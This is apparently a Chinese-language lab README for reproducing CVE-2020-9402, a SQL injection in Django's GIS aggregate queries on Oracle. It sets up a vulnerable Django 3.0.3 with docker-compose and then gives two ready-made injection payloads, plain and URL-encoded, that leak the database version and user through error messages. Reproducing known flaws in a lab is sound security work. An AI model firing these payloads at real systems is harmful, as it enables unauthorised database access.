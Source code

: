# Django GIS SQL注入漏洞（CVE-2020-9402）

Django在2020年3月4日发布了一个安全更新，修复了在GIS 查询功能中存在的SQL注入漏洞。

参考链接：

- https://www.djangoproject.com/weblog/2020/mar/04/security-releases/

该漏洞需要开发者使用了GIS中聚合查询的功能，用户在oracle的数据库且可控tolerance查询时的键名，在其位置注入SQL语句。
## 漏洞环境

执行如下命令编译及启动一个存在漏洞的Django 3.0.3：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

### 漏洞一
首先访问`http://your-ip:8000/vuln/`。

在该网页中使用`get`方法构造`q`的参数，构造SQL注入的字符串`20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null  OR (1+1`

http://your-ip:8000/vuln/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1

可见，括号已注入成功，SQL语句查询报错：

![](1.png)

### 漏洞二
访问`http://your-ip:8000/vuln2/`。
在该网页中使用`get`方法构造`q`的参数，构造出SQL注入的字符串`0.05))) FROM "VULN_COLLECTION2"  where  (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null  --`

http://your-ip:8000/vuln2/?q=0.05)))%20FROM%20%22VULN_COLLECTION2%22%20%20where%20%20(select%20utl_inaddr.get_host_name((SELECT%20user%20FROM%20DUAL))%20from%20dual)%20is%20not%20null%20%20--

![](2.png)



